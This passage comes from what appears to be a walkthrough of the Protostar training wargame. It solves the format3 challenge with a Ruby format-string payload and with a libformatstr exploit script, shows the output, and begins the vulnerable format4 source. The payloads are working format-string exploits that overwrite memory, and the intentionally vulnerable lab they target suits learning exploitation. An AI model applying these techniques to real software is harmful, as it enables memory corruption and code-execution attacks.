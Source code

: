 user@protostar:~$ ruby -e 'print [0x080496f6].pack("V") + [0x080496f4].pack("V") + "%12\$250x%12\$hn%13\$21570x%13\$hn"' | /opt/protostar/bin/format3 
...
80496f4you have modified the target :)
{% endcodeblock %}

The challenge could be also solved with [hellman's libformatstr.py](https://github.com/hellman/libformatstr).

{% codeblock %}
user@protostar:~$ git clone https://github.com/hellman/libformatstr
Cloning into libformatstr...
remote: Counting objects: 51, done.
remote: Total 51 (delta 0), reused 0 (delta 0), pack-reused 51
Unpacking objects: 100% (51/51), done.

user@protostar:~$ cd libformatstr/
{% endcodeblock %}

{% codeblock lang:py exploit-format3.py %}
#!/usr/bin/env python

import sys
from libformatstr import FormatStr

destination   = 0x080496f4
what_to_write = 0x01025544

p = FormatStr()
p[destination] = what_to_write

# buf is 12th argument, 0 bytes are already printed
sys.stdout.write(p.payload(12, start_len=0))
{% endcodeblock %}

{% codeblock %}
user@protostar:~/libformatstr$ python ./exploit-format3.py  | /opt/protostar/bin/format3 
...
 p??you have modified the target :)
{% endcodeblock %}

## Protostar Format4
{% codeblock lang:c format4.c %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void hello()
{
  printf("code execution redirected! you win\n");
  _exit(1);
}
